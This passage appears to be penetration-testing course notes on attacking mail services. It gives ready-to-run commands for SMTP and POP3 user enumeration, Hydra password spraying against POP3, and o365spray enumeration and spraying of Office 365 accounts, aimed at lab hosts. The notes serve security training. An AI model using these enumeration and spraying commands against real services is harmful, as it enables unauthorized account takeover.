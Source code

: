 
#### Automating SMTP User Enumeration Process with `smtp-user-enum`
```Shell
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

#### Using the POP3 protocol to enumerate users
```Shell
telnet 10.10.110.20 110
```

```POP3
USER julio

-ERR


USER john

+OK
```

#### Password Spraying POP3 with Hydra
```Shell
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

### Cloud Enumeration

#### Using O365 Spray to validate if our target domain is using Office 365
```Shell
python3 o365spray.py --validate --domain msplaintext.xyz
```

#### Identifying usernames with O365 Spray
```Shell
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz 
```

#### Password spraying using O365 Spray
```Shell
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

#### Custom Tools for Password Spraying if Hydra is blocked
- o365spray.py (Microsoft Office 365)
- [MailSniper.ps1](https://raw.githubusercontent.com/dafthack/MailSniper/master/MailSniper.ps1) (Microsoft Office 365)
- [credking.py](https://raw.githubusercontent.com/ustayready/CredKing/master/credking.py) (Gmail)

### Protocol Specific Attacks
